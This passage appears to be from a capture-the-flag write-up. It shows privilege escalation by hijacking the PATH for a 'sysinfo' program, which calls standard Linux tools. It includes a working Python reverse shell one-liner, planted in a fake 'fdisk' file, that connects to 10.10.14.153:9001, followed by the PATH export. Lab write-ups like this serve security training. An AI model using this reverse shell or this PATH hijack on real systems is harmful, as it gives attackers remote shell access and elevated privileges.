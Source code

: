 ```bash
..........................
====================CPU Info====================
processor       : 0
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 1
model name      : AMD EPYC 7401P 24-Core Processor
stepping        : 2
microcode       : 0x8001230
cpu MHz         : 2000.000
cache size      : 512 KB
...............................

====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        624M        1.8G        4.1M        1.4G        3.0G
Swap:          947M          0B        947M
theseus@ubuntu:~$ 
```
The content displayed by sysinfo is mainly divided into four parts

+ Hardware Info
+ Disk Info
+ CPU Info
+ Mem Usage

After checking the tips given by Forum's predecessors, I found that sysinfo is a combination of four Linux commands:

+ Hardware Info = lshw -short
+ Disk Info = fdisk -l
+ CPU Info = cat /proc/cpuinfo
+ Mem Usage = free -h

Since sysinfo the native Linux command is called, we can change the `PATH` variable to create a content that is determined by ourselves, and the file name is any one of the above four `binary files`, specifically:

`/tmp/magic` Create a `fdisk` file in the directory , and then write a reverse shell to it:

```bash
theseus@ubuntu:/tmp/magic$ cat fdisk 
python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.153",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
theseus@ubuntu:/tmp/magic$ chmod 755 fdisk 
theseus@ubuntu:/tmp/magic$ ls -lah | grep fdisk 
-rwxr-xr-x  1 theseus theseus  228 May  7 23:38 fdisk
theseus@ubuntu:/tmp/magic$ 
```
Then write the `/tmp/magic` directory to the `PATH` environment variable:

```bash
theseus@ubuntu:/tmp/magic$ export PATH=/tmp/magic:$PATH 
```
